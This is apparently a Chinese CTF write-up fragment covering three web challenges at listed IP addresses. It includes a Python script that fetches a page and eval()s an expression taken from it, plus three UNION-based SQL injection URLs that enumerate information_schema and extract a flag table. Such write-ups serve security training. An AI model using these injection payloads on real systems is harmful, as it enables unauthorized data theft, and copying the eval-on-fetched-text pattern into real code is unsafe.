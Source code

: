 

## 4、**

<http://123.206.31.85:49165/>
SKCTF{xxxxxxxxxxxxxxxxxxxxx}
hint:union，命令执行 

看的这两篇博客

https://www.cnblogs.com/blili/p/9045280.html

https://blog.csdn.net/zazazrt/article/details/87655154





## 5

http://123.206.31.85:10002/

就是一个速算，用脚本跑一下就行了

```
import requests
url='http://123.206.31.85:10002/'
s=requests.Session()
r=s.get(url)
res=r.text.encode(r.encoding).decode()
#print(res)
   #获取网页内容
a=res.find("(")
b=res.find(')</div>',a) #找到我们要计算的式子的前后位置
num=res[a:b+1]
print(num)
num=eval(num)
print(num)
   #将计算式赋值给一个变量
#r=s.post(url,data={'result':num})
   #eval():计算num的值，
#print (r.text.encode(r.encoding).decode())
```



## 6、

注射液http://47.95.208.167:10005/

![1555677635333](1555677635333.png)

```
http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3,group_concat(table_name)  from information_schema.tables where table_schema=database() %23

http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3, group_concat(column_name)  from information_schema.columns where table_schema=database() and table_name= 'flag' %23

http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3, flag from flag %23
```
